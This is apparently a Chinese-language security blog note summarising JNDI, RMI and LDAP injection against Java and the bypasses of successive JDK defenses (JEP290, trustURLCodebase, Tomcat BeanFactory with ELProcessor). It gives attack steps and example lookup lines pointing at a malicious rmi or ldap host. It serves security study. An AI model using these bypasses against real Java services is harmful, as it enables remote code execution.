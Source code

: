 ```yaml
---
title: "JNDI、RMI、LDAP防御和绕过总结"
date: 2022-03-13T16:13:45+08:00
draft: true
image: 
description: 
comments: true
license: true
math: false
categories:
- note
tags:
- JNDI
- RMI
- LDAP
---
```


本篇原理分析较少，主要是总结梳理攻击，绕过手法

## 前置知识

### RMI调用流程

![17cd7c7d4f9ef2c362efb3086c27417e.png](https://raw.githubusercontent.com/Anthem-whisper/imgbed/main/img/202212271610049.png)

RMI基于反序列化，每次数据交换都存在序列化-反序列化操作，由此延伸出对三端的攻击手法

### JNDI攻击手法

通常 JNDI 注入攻击的都是 lookup 方法的执行者，一般步骤如下：

1.  目标机器中调用了 `InitialContext.lookup(URL)`，且 URL 为用户可控
2.  攻击者控制这个 URL 为一个恶意的 RMI 服务地址：`rmi://hack:port/name`或者`ldap://xxx/xxx`
3.  恶意 RMI/ldap 服务会返回一个含有恶意 factory 的 Reference 对象或者直接返回恶意序列化数据

> - JNDI 注入可以通过 RMI 方式和 LDAP 方式来达到攻击效果。
> - javax.naming.InitialContext.lookup('ldap://127.0.0.1:9999/#Exploit')
> - org.springframework.jndi.JndiLocatorDelegate.lookup('rmi://127.0.0.1:1099/refObj')

## **jdk8u121**

这个版本主要是ban掉了RMI的一些打法

1.  从jdk8u121开始，RMI加入了反序列化白名单机制(**[JEP290](https://www.twblogs.net/a/5e4efb52bd9eee101df6892d)**)
2.  在jdk8u121之后，对于Reference加载远程代码，jdk的信任机制，在通过rmi加载远程代码的时候，会判断环境变量`com.sun.jndi.rmi.object.trustURLCodebase`是否为true，而其在121版本及后，默认为false。RMI远程Reference代码攻击方式开始失效

### 白名单绕过（JEP290绕过）

可以看这篇：[RMI-JEP290的分析与绕过 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/259059)

为了绕过**JEP290**，ysoserial里面的JRMPClient链子，通过UnicastRef这个在RMI反序列化白名单内的gadget进行攻击：

1.  用`ysoserial`启动一个恶意的`JRMPListener`
2.  受害者启动注册中心(RMI Registry)
3.  攻击者启动Client调用`bind()`操作
4.  注册中心（受害者）被反序列化攻击

> 如果我们可以控制 UnicastRef 中 LiveRef 所封装的 host、端口等信息，我们就可以发起一个任意的 JRMP 连接请求，这其实就是 ysoserial 中的 payloads.JRMPClient 的原理。
> 
> 实际上ysoserial这个JRMPClient和JRMPListener就是利用JRMP协议对打

攻击过程：
![0a195b875b83dececc1d8526523878e3.png](https://raw.githubusercontent.com/Anthem-whisper/imgbed/main/img/202212271611301.png)

后续修复和绕过：

1.  绕过的修复版本：jdk8u231，在JDK8u231的`dirty`函数中多了`setObjectInputFilter`过程，所以用`UnicastRef`就没法再进行绕过了。
2.  `1.`修复版本的绕过：国外安全研究人员`@An Trinhs`发现了一个gadgets利用链，能够直接反序列化`UnicastRemoteObject`造成反序列化漏洞。参考：[RMI Bypass Jep290(Jdk8u231) 反序列化漏洞分析 - 360CERT](https://cert.360.cn/report/detail?id=add23f0eafd94923a1fa116a76dee0a1)

> 在上面的 Bypass 中，UnicastRef 类用了一层包装，通过递归的形式触发反序列化；通过 DGCClient 向 JRMPListener 发起 JRMP 请求，而这条 Gadget 是直接利用一次反序列化发起 JRMP 请求

3.  `2.`绕过的修复版本：jdk8u241，在调用`UnicastRef.invoke`之前，做了一个检测。声明方法的类，必须要实现`Remote`接口，然而这里的`RMIServerSocketFactory`并没有实现，于是无法进入到invoke方法，直接抛出错误。

### 使用ldap

在这个版本还没有ban掉ldap的Reference对象和ldap直接返回恶意序列化数据

### 服务端Object参数暴露

这个其实就是正常RMI Client攻击Server的手法。

例如，远程调用的接口 RemoteInterface 存在一个 sayGoodbye 方法的参数是 Object 类型。

![cad6d7a0109df4f446a58467d0dbf87c.png](https://raw.githubusercontent.com/Anthem-whisper/imgbed/main/img/202212271612915.png)

RMI的传输100%基于反序列化，那我们就直接可以传一个反序列化 payload 进去执行反序列化。

如果参数不是Object还有后续绕过：

> 由于攻击者可以完全控制客户端，因此他可以用恶意对象替换从Object类派生的参数（例如String）有几种方法：
> 
> 1.  将java.rmi软件包的代码复制到新软件包，然后在其中更改代码
>     
> 2.  将调试器附加到正在运行的客户端，并在序列化对象之前替换对象
>     
> 3.  使用Javassist之类的工具更改字节码
>     
> 4.  通过实现代理来替换网络流上已经序列化的对象
>     

也被su18师傅称为替身攻击：

> 大体的思路就是调用的方法参数是 HelloObject，而攻击者希望使用 CC 链来反序列化，比如使用了一个入口点为 HashMap 的 POC，那么攻击者在本地的环境中将 HashMap 重写，让 HashMap 继承 HelloObject，然后实现反序列化漏洞攻击的逻辑，用来欺骗 RMI 的校验机制。

afanti师傅用的是通过RASP hook住`java.rmi.server.RemoteObjectInvocationHandler`类的`InvokeRemoteMethod`方法的第三个参数非Object的改为Object的gadget。他的项目地址在[RemoteObjectInvocationHandler](https://github.com/Afant1/RemoteObjectInvocationHandler)。

## jdk8u191

这个版本ban掉了ldap的Reference对象

> 在jdk8u191之后，加入LDAP远程Reference代码信任机制，LDAP远程代码攻击方式开始失效，也就是系统变量`com.sun.jndi.ldap.object.trustURLCodebase`默认为false（CVE-2018-3149）

高版本绕过主要有两种方式：

- LDAP Server 直接返回恶意序列化数据，但需要目标环境存在 Gadget 依赖
  
- 使用本地 Factory 绕过（主要是利用了 `org.apache.naming.facotry.BeanFactory` 类）
  

### ldap直接返回序列化数据

1.  搭建恶意LDAP Server，可以直接改 [marshalsec](https://github.com/mbechler/marshalsec) 里面的：
2.  受害者 lookup 方法参数可控，执行 ldap://xxx/xxx

### 利用本地 Factory 绕过

在 Reference 类中的 factory Class，要求实现 ObjectFactory 接口，在 "NamingManager#getObjectFactoryFromReference" 方法中的逻辑是这样的：

1.  优先从本地加载 factory，这就要求 factory Class 在本地的 ClassPath 中
2.  本地加载不到会从 codebase 处加载，**但是由于高版本 jdk 默认不信任 codebase，在一般情况下无法利用**
3.  在加载完 factory 之后会强制类型转换为 `javax.naming.spi.ObjectFactory` 接口类型，之后调用 `factory.getObjectInstance()` 方法

所以如果找可以利用的 factory 就要满足下面的要求：

- 在目标的 ClassPath 中，且实现了 `javax.naming.spi.ObjectFactory` 接口
  
- 其 `getObjectInstance` 方法可以被利用
  

（其中一条Gadget）这个可用的 factory 类为 `org.apache.naming.BeanFactory`，位于 tomcat 的依赖包中，此外，这个 factory 绕过需要搭配 `javax.el.ELProcessor` 执行任意的 EL 表达式来完成 RCE，依赖：

```XML
 <dependency>
     <groupId>org.apache.tomcat</groupId>
     <artifactId>tomcat-catalina</artifactId>
     <version>8.5.0</version>
 </dependency>
 
 <!-- 加载ELProcessor时需要 -->
 <dependency>
     <groupId>org.apache.tomcat.embed</groupId>
     <artifactId>tomcat-embed-el</artifactId>
     <version>8.5.0</version>
 </dependency>
```

## Reference

[如何绕过高版本 JDK 的限制进行 JNDI 注入利用 - 安全客](https://paper.seebug.org/942/)

[RMI Bypass Jep290(Jdk8u231) 反序列化漏洞分析 - 360CERT](https://cert.360.cn/report/detail?id=add23f0eafd94923a1fa116a76dee0a1)

[RMI-JEP290的分析与绕过 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/259059)

[Bypass JEP290 - Y4er](https://y4er.com/post/bypass-jep290/)

[如何绕过高版本JDK的限制进行JNDI注入利用](https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html)

[浅析高低版JDK下的JNDI注入及绕过 \[Mi1k7ea\]](https://www.mi1k7ea.com/2020/09/07/%E6%B5%85%E6%9E%90%E9%AB%98%E4%BD%8E%E7%89%88JDK%E4%B8%8B%E7%9A%84JNDI%E6%B3%A8%E5%85%A5%E5%8F%8A%E7%BB%95%E8%BF%87/)

[JNDI注入分析 - 跳跳糖](https://tttang.com/archive/1611/)